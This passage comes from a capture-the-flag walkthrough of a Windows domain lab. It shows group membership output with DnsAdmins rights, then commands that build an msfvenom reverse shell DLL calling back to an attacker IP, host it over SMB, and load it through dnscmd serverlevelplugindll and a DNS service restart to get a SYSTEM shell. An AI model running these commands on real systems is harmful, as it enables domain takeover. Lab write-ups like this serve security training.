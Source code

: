 ```
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```

Also, there's a note within the desktop:

{% code overflow="wrap" %}
```
*Evil-WinRM* PS C:\Users\ryan\desktop> cat note.txt
Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
```
{% endcode %}

This means that we have control over DNS and can change the DLL file with a reverse shell. We should also be able to start and stop the service.

We can use this guide to get a SYSTEM shell.

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/" %}

First, let's create a reverse shell DLL file via `msfvenom`. Afterwards, we need to host it using `smbserver.py`.&#x20;

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f dll -o shell.dll
smbserver.py share . -smb2support
```

Then, following the PoC, we can use `dnscmd` to set the server to use our DLL over SMB and restart the service to get a SYSTEM shell:

```
dnscmd 127.0.0.1 /config /serverlevelplugindll \\10.10.14.13\share\shell.dll
sc.exe stop dns
sc.exe start dns
```

<figure><img src="../../../.gitbook/assets/image (32) (3) (2).png" alt=""><figcaption></figcaption></figure>
